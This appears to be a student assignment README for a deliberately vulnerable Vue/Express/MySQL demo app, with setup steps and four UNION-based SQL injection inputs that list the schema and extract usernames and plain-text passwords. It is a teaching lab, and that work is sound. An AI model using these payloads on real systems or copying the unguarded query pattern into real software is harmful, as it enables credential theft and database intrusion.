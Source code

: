 # Secure Systems Assignment 2 - SQL Injection
# Bearach Byrne - C15379616

This is a simple web app originally taken from https://github.com/TanayB11/sql-injection-demo.git, with some minor modifications.

This application is a lesson in how not to create a web application. It purposefully does not make use of any defenses against SQLi attacks.

## Stack
- Vue
- Node + Express
- MySQL

The below setup guide is for Linux (I set it up and ran it on Ubuntu 20.04.4 LTS

## Setup
1. Clone the repo to a directory - `git clone https://github.com/BearachB/sql_inject_demo.git`
8. Install Homebrew - `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)`. Ensure you add Homebrew to your path and bash shell profile script (follow prompts after installing Homebrew). 
9. Install MySQL `brew install mysql`
10. Start the MySQL server with `mysql.server start`
11. Login to MySQL with `mysql -u root -p`. The default password is blank
12. Run `ALTER USER 'root'@'localhost' IDENTIFIED BY 'new_password';` to change your MySQL password
13. Here, you can check the databases using the `show databases` command, and also check the tables within each using the `show tables` command
14. `QUIT` exits the MySQL monitor - Note: `mysql.server stop` stops the MySQL server. Do not run this if you are using the server.
15. Add your MySQL credentials to an environment variable.
```bash
$ cd server
$ echo 'MYSQL_CREDS="mysql_password"' > .env
```

09. To start the Express Server.
```bash
$ cd client && yarn install     # Installs client dependencies
$ cd ../server && yarn install  # Installs server dependencies
$ yarn dev                      # Starts Express server
```
10. To start the Vue server: In a new terminal, run:
```bash
$ cd client
$ yarn serve                    # Starts Vue.js server
```
11. This should open your default browser and connect to your local Vue server, if this doesn't happen go to your browser and manually connect to localhost:8080. 
13. Try search for a computer part, such as "cpu" or "board".
14. Try some SQLi inputs in the search box: 
```
-- Append 1, 2, 3 on the bottom
steel%' UNION (SELECT 1, 2, 3 FROM dual);  -- 

-- Get a list of tables
steel%' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);  -- 

-- Get all columns from "users" table
steel%' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users');  -- 

-- Grab usernames and passwords (stored in plain text)
steel%' UNION (SELECT id, username, password FROM users);  -- 
```

------------------------------------------------------------------------------------------------------------------------

If you get errors connecting to MySQL, run the following:
`$ mysql -u root -p`
```SQL
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'mysql_password';
flush privileges;
QUIT;
```
